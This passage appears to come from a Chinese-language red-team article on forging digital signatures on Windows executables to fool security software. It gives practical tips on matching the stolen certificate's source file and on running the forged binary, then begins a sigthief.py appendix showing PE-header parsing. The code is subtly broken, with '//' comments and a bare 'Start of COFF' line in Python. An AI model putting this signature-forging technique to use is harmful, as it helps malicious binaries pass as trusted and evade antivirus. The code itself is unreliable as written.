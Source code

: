 以上结果佐证，许多安全软件，仅仅是验证是否有数字签名，而不确认是否有效

后者的话：

该原始python在伪造证书时，需要注意2点：

原始证书文件需要对应目标机的机器版本以及位数，如目标机是Windows 2003，那么需要原始带证书文件也为Windows 2003的文件。包括第三方文件。

伪造证书后，例：在Windows 2003 开启验安全验证后，双击无法运行，也无报 错，需要命令行下执行即可。

附录：sigthief.py

 
```sigthief.py
   #!/usr/bin/env python3
    // LICENSE: BSD-3
    // Copyright: Josh Pitts @midnite_runr
    
    import sys
    import struct
    import shutil
    import io
    from optparse import OptionParser
    
    
    def gather_file_info_win(binary):
            """
            Borrowed from BDF...
            I could just skip to certLOC... *shrug*
            """
            flItms = {}
            binary = open(binary, 'rb')
            binary.seek(int('3C', 16))
            flItms['buffer'] = 0
            flItms['JMPtoCodeAddress'] = 0
            flItms['dis_frm_pehdrs_sectble'] = 248
            flItms['pe_header_location'] = struct.unpack('<i', binary.read(4))[0]
            Start of COFF
            flItms['COFF_Start'] = flItms['pe_header_location'] + 4
            binary.seek(flItms['COFF_Start'])
            flItms['MachineType'] = struct.unpack('<H', binary.read(2))[0]
            binary.seek(flItms['COFF_Start'] + 2, 0)
            flItms['NumberOfSections'] = struct.unpack('<H', binary.read(2))[0]
            flItms['TimeDateStamp'] = struct.unpack('<I', binary.read(4))[0]
            binary.seek(flItms['COFF_Start'] + 16, 0)
            flItms['SizeOfOptionalHeader'] = struct.unpack('<H', binary.read(2))[0]
            flItms['Characteristics'] = struct.unpack('<H', binary.read(2))[0]
            #End of COFF
            flItms['OptionalHeader_start'] = flItms['COFF_Start'] + 20
    
            #if flItms['SizeOfOptionalHeader']:
                #Begin Standard Fields section of Optional Header
            binary.seek(flItms['OptionalHeader_start'])
            flItms['Magic'] = struct.unpack('<H', binary.read(2))[0]
            flItms['MajorLinkerVersion'] = struct.unpack("!B", binary.read(1))[0]
            flItms['MinorLinkerVersion'] = struct.unpack("!B", binary.read(1))[0]
            flItms['SizeOfCode'] = struct.unpack("<I", binary.read(4))[0]
            flItms['SizeOfInitializedData'] = struct.unpack("<I", binary.read(4))[0]
            flItms['SizeOfUninitializedData'] = struct.unpack("<I",
                                                                   binary.read(4))[0]
            flItms['AddressOfEntryPoint'] = struct.unpack('<I', binary.read(4))[0]
            flItms['PatchLocation'] = flItms['AddressOfEntryPoint']
            flItms['BaseOfCode'] = struct.unpack('<I', binary.read(4))[0]
            if flItms['Magic'] != 0x20B:
                flItms['BaseOfData'] = struct.unpack('<I', binary.read(4))[0]
            # End Standard Fields section of Optional Header
            # Begin Windows-Specific Fields of Optional Header
```